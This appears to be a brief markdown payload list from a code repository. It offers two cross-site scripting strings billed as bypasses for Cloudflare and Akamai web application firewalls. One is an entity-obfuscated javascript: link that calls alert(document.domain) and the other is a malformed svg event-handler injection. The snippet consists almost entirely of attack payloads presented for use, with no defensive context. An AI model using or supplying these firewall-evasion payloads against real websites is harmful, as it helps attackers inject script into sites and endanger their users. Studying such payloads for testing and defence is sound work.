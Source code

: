 ## Cloudflare XSS Bypass
By [aisecureme](https://twitter.com/aisecureme)

```<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>```

## Akamai XSS Bypass
By [aisecureme](https://twitter.com/aisecureme)

```“><svg/on</script>laod=alert>```
